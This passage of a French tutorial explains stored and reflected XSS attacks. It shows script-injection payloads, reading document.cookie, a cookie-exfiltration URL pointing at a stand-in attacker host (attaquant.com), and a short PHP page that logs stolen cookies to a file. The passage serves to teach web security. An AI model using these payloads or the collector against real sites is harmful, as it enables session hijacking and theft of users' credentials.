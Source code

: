 ```html
<img src="./chat.jpg" title="Une image" /><script>alert('hackndo');</script><p class="" />
```

Ce code html est valide et exécute du javascript au sein du navigateur de l'utilisateur alors que ce n'était pas voulu par le développeur à l'origine.

Il suffit alors d'envoyer la page contenant l'image à une autre personne pour exécuter du javascript dans le navigateur de l'autre utilisateur. Comme le code injecté est enregistré par le serveur, et qu'il ne disparait pas au rafraichissement de la page, on appelle cela une attaque XSS persistante.

Lorsque le code injecté n'est pas persistant, alors c'est une attaque XSS non persistante. C'est par exemple le cas dans un formulaire de recherche, et que le contenu de la recherche est affiché à l'écran

```html
<p>L'utilisateur Pixis n'existe pas.</p>
```

Si nous envoyons `Pixis<script>alert('hackndo');</script>` alors la réponse sera 

```html
<p>L'utilisateur Pixis<script>alert('hackndo');</script> n'existe pas.</p>
```

Le javascript `alert` sera exécuté, mais seulement pour nous, puisqu'il faut lancer la recherche avec le champ bien choisi pour que ce code soit injecté dans la page. Quand un autre utilisateur arrive sur la page de recherche, notre code javascript n'est pas présent sur la page, donc il ne se passera rien.

## Premiers risques

Contrairement à ce que nous pourrions penser, le fait que la charge utile soit exécutée côté client est bel et bien un risque pour l'utilisateur. En effet, le client possède plusieurs informations secrètes et utiles pour l'attaquant, il a également des extensions dans son navigateur qui peuvent avoir des vulnérabilités.

Jusque-là, nous avons seulement affiché une pop-up dans la navigateur de la victime, mais nous allons aller un peu plus loin et voler les cookies de l'utilisateur sur le site vulnérable. Pour cela, nous utiliserons la propriété [cookie](https://developer.mozilla.org/fr/docs/Web/API/Document/cookie){:target="blank"} du document (sous réserve que les cookies ne soient pas [protégés](https://en.wikipedia.org/wiki/HTTP_cookie#Secure_cookie){:target="blank"})

```javascript
document.cookie
```

Cela permet de récupérer les cookies de l'utilisateur associés au domaine+port. Une fois que les cookies ont été chargés dans le navigateur de la victime, il faut que l'attaquant les récupère. Plusieurs solutions sont possibles, mais une solution commune est que l'attaquant a préparé un serveur de son côté avec une page qui enregistre la valeur d'un paramètre `http://attaquant.com/get.php?v=<valeur>`. Du côté de l'attaquant, quand cette page est accédée avec une valeur, elle sera par exemple enregistrée dans un fichier texte.

Voici un exemple minimaliste de page

```php
// get.php
<?php
  $cookie = $_GET['v'] . "\n";
  file_put_contents("cookies.txt", $cookie, FILE_APPEND | LOCK_EX);
```

